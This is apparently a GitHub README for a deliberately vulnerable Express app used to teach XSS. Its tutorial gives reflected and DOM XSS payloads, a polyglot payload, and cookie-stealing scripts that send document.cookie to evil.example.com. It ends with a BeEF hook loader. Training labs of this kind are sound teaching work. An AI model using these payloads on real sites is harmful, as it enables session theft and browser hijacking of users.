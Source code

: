 # Hands-on Express XSS

This application is a demonstration prototype just to show how to perform XSS attacks.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe/Hands-on-Express-XSS)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ node app.js
```

* Make sure that TCP/3000 is allowed on your firewall


## Tutorials

These tutorials will walk you through using XSS attacks.

### Reflected XSS

* Open http://localhost:3000

* Complete name field with a simple XSS payload

```javascript
<script>alert("XSS");</script>
```

* Complete name field with a XSS payload (without script tag)

```javascript
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

* Complete name field with a XSS payload (with context breaking)

```javascript
" autofocus onfocus="alert('XSS')
```

* Complete name field with a polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert('XSS')//>
```

### DOM-Based XSS

* Open http://localhost:3000/#message (A script inserts this URL fragment in the page)

* Open http://localhost:3000/#<script>alert("XSS");</script>


### Steal cookie

```javascript
<script>alert(document.cookie);</script>
```

Do you receive this cookie ? no

```javascript
<script>document.location= "http://evil.example.com/?cookie=" + document.cookie;</script>
```

Redirection will be suspicious! Try without redirecting on another page.

```javascript
<script>document.write('<img src="http://evil.example.com/img.jpg?cookie=' + document.cookie + '" />')</script>
```

### Beef

Payload to hook the page with BeEF:

```javascript
" autofocus onfocus="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();
```
